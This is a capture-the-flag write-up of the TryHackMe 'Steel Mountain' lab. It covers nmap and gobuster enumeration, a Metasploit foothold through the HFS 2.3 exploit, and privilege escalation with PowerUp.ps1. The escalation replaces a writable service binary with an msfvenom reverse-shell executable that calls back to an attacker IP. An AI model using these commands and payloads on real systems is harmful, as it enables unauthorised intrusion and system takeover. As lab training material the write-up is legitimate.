 # enumerate
- port
```
port scanning...
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
8080/tcp  open  http-proxy
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49159/tcp open  unknown
49161/tcp open  unknown
Enumerating open ports...
```
- services
```
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-07-19T14:23:37+00:00; +1s from scanner time.
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49161/tcp open  msrpc              Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (96%), Microsoft Windows Server 2012 R2 (96%), Microsoft Windows Server 2012 R2 Update 1 (96%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (96%), Microsoft Windows Server 2012 or Server 2012 R2 (95%), Microsoft Windows Vista SP1 (95%), Microsoft Windows Server 2008 SP2 Datacenter Version (94%), Microsoft Windows Server 2008 R2 (93%), Microsoft Windows Home Server 2011 (Windows Server 2008 R2) (93%), Microsoft Windows Server 2008 SP1 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:5f:11:43:b6:98 (unknown)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-19T14:23:31
|_  start_date: 2020-07-19T14:11:43
```
- smb : cant login anonymous
- port 80 using gobuster: just Bill Harper here, he is a cute dude who love cat
```
/Index.html (Status: 200)
/img (Status: 301)
/index.html (Status: 200)
```
- port 8080 : HttpFileServer httpd 2.3
  - cant login with common password
  - https://www.exploit-db.com/exploits/39161

# with Metasploit

# Foothold
The is a metasploit module for this exploit, open `msfconsole` and run `search hfs`. Select the exploit and fill every requried varible in the `options`. Execute the exploit when you are done.

# Root
we will use `PowerUp.ps1` to find a potential priv esc vector. `PowerUp` purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

let find out `PowerUP`:
```console
bibo318@parrot:~$ find / -name PowerUp.ps1 2> /dev/null
```
To execute this using Meterpreter, I will type ```load powershell``` into meterpreter to load the extension. Then enter powershell by execute ```powershell_shell``` then execute the script
```
meterpreter > upload /home/kali/Empire/data/module_source/privesc/PowerUp.ps1
[*] uploading  : /home/kali/Empire/data/module_source/privesc/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 550.06 KiB of 550.06 KiB (100.0%): /home/kali/Empire/data/module_source/privesc/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /home/kali/Empire/data/module_source/privesc/PowerUp.ps1 -> PowerUp.ps1
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
.
.
.
[*] Checking service executable and argument permissions...


ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
.
.
.
```
note that we have premission to **restart** this service, moreover, the directory to the application is also **write-able**. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!


now let create msfvenom reverse shell read [here](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/). We will replace the service which call ```ASCService.exe```, in Kali:
```console
bibo318@parrot:~/THM/steel$ msfvenom -p windows/shell_reverse_tcp LHOST=10.8.14.151 LPORT=6969 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```
back to meterpreter. upload the shell
```
meterpreter > cd C:/Users/bill/Desktop
meterpreter > upload /home/kali/THM/steel/ASCService.exe
[*] uploading  : /home/kali/THM/steel/ASCService.exe -> ASCService.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/kali/THM/steel/ASCService.exe -> ASCService.exe
[*] uploaded   : /home/kali/THM/steel/ASCService.exe -> ASCService.exe
meterpreter > 
```
now load powershell again, we will stop the service -> replace our reverse shell with the real `ASCService.exe` -> start up the service again
```
meterpreter > powershell_shell 
PS > Stop-Service -Name "AdvancedSystemCareService9"
PS > Copy-Item "ASCService.exe" -Destination "C:\Program Files (x86)\IObit\Advanced SystemCare\"
PS > Start-Service -Name "AdvancedSystemCareService9"
```
**NOTE** before start the service back up dont forget to `netcat` and listen for the port. Now run `more root.txt` to get root flag


# without MSF
im lazy read [here](https://www.cybersecpadawan.com/2020/04/tryhackme-steel-mountain-metasploit-and.html)